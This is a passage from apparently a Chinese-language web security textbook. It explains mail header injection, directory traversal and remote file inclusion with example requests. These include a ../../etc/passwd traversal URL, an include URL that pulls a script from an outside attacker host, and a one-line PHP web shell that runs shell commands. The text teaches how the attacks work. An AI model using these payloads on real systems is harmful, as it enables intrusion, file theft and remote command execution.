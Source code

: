 %0D%0A 在邮件报文中代表换行符。一旦咨询表单所在的 Web 应用接收了这个换行符，就可能实现对 Bcc 邮件地址的追加发送，而这原本是无法指定的。 

另外像下面一样，使用两个连续的换行符就有可能篡改邮件文本内容并发送。 

> bob@hackr.jp**%0D%0A%0D%0A**Test Message 

再以相同的方法，就有可能改写 To 和 Subject 等任意邮件首部，或向文本添加附件等动作。 

- 目录遍历（Directory Traversal）攻击是指对本无意公开的文件目录，通过非法截断其目录路径后，达成访问目的的一种攻击。这种攻击有时也称为路径遍历（Path Traversal）攻击。 

通过 Web 应用对文件处理操作时，在由外部指定文件名的处理存在疏漏的情况下，用户可使用 .../ 等相对路径定位到 /etc/passed 等绝对路径上，因此服务器上任意的文件或文件目录皆有可能被访问到。这样一来，就有可能非法浏览、篡改或删除 Web 服务器上的文件。 

固然存在输出值转义的问题，但更应该关闭指定对任意文件名的访问权限。 

以下查询字段，指定某个文件名。然后从 /www/log/ 文件目录下读取这个指定的文件。 

> http://example.com/read.php?log=**0401.log** 

攻击者设置如下查询字段后发出请求。 

> http://example.com/read.php?log=**../../etc/passwd** 

查询字段为了读取攻击者盯上的 /etc/passwd 文件，会从 /www/log/ 目录开始定位相对路径。如果这份 read.php 脚本接受 对指定目录的访问请求处理，那原本不公开的文件就存在可被访问的风险。 

![1565844693263](images/1565844693263.png)

http://example.com/foo.php 的源代码（部分摘录） 

> $modname = $_GET['mod'];
>
> include($modname); 

攻击者指定如同下面形式的 URL发出请求。 

> http://example.com/foo.php?mod=**http://hackr.jp/cmd.php&cmd=ls** 

攻击者已事先在外部服务器上准备了以下这段脚本。 

> http://hackr.jp/cmd.php 的源代码
>
> <? system($_GET['cmd']) ?> 
